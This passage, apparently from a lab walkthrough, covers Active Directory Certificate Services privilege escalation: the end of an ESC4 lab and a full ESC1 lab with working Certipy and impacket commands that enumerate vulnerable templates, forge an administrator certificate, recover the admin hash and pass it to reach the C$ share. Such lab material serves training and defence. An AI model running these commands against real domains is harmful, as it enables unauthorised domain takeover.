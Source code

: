    - List the available smb shares with the command `shares` and connect to one `use <SHARE_NAME>`. In our case, the share was `C$` and the flag located in the desktop of the administrator user.


#### Why It Works
ESC4 exploits misconfigured certificate templates that allow low-privileged users to request certificates with excessive permissions, enabling privilege escalation.

#### Alternatives
- Use manual certificate requests via PowerShell for finer control.

#### Resources
- [Certipy Documentation: https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)
- [AD CS Attacks: https://www.specterops.io/assets/resources/ADCS_Attacks.pdf]

#### Notes
- Ensure valid domain credentials are used for enumeration.
- Download certipy-(ad) and impacket if not already available.

---

### Lab 2: Privilege Escalation via ESC1
#### Objective
Escalate privileges on a domain controller by exploiting the ESC1 vulnerability in AD CS.

#### Vulnerabilities
- ESC1: Vulnerable certificate templates allow unauthorized users to enroll with domain admin privileges.

#### Requirements
Lab domain controller must be accessible with AD CS enabled. Credentials for low privilege user (user:password) must be available.

#### Steps
1. **Setup**
   - Confirm access to the domain environment.
   ```bash
   ping <DC_IP>
   ```
2. **Reconnaissance**
   - Enumerate and find vulnerable AD CS certificate templates. 
   ```bash
   certipy-ad  find -u user -p 'password' -dc-ip <DC_IP> -vulnerable -stdout
   ```
3. **Exploitation**
   - Request a certificate with elevated permissions and export it. The certificate authority in our case was 'CA-CYBER'. The vulnerable template in out case was 'VPNUser'.
   ```bash
   certipy-ad req -u 'user@domain.local' -p 'password' -ca <CA_NAME> -template <VULN_TEMPLATE> -dc-ip <DC_IP> -upn 'administrator@corp.local' 
   ```
   - The certificate will be saved to the current directory, in our case, as 'administrator.pfx'. Uset it to authenticate.
   ```bash
   certipy-ad auth -pfx <CERT_FILE_NAME> -DC-IP <DC_IP>
   ```
   - Use impacket-smbclient to authenticated with the administrator's username and password obtained.
   ```bash
   impacket-smbclient corp.local/administrator@<DC_IP> -hashes <HASH_OBTAINED>
   ```
   - List the available smb shares with the command `shares` and connect to one `use <SHARE_NAME>`. In our case, the share was `C$` and the flag located in the desktop of the administrator user.
